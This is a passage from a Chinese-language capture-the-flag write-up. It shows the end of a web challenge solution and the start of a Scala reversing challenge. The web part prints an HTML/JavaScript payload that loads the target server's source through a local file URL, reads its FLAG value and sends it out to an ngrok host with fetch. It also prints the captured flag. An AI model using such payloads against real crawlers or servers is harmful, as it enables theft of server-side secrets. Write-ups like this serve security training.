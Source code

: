 ```html

download("http://1441f3aaaabc.ngrok.io/payload.html", file_name);
open("http://the-woven-web.balsnctf.com/?url=file:///home/user/Downloads/" + file_name)

</script>
```

payload.html
```html
<script>
fetch('http://1441f3aaaabc.ngrok.io/hint2123');
function require(nothing) {
  if (nothing == 'redis') {
      return {createClient: console.log};
  }

  if (nothing == 'fs') {
      return {existsSync: console.log};
  }

  return console.log;
}
</script>

<script src="file:////home/user/app/server.js"></script>

<script>
fetch('http://1441f3aaaabc.ngrok.io/hint2');
fetch('http://1441f3aaaabc.ngrok.io/hint2123' + FLAG );

</script>
```

之後在本地的 http 會有 access log ，並且 URL decode 就有 flag 了 

```
BALSN{THe_cRawLEr_Is_cAughT_IN_tHe_wOVeN_wEb}
```

## [Rev] BabyRev

- 用 decompiler（ex: JD-GUI）反編譯 class file，得到原始碼
- 可以看出是用 `Scala` 寫的 
- 從 class `Main$` 的 `main()` 可以看出 flag 是由 a, b 兩個 byte array 經過 xor 得到，其中 a 是已知的，所以重點放在如何產生 b，程式碼如下：

```java=
byte[] b = scala.package..MODULE$.BigInt().apply((long)BoxesRunTime.unboxToInt(
      this.broken().apply(60107)) % (long)Math.pow(2.0D, 62.0D)).toByteArray();

/* pseudo code */
// b = toByteArray(broken()[60107] % pow(2, 62))
```
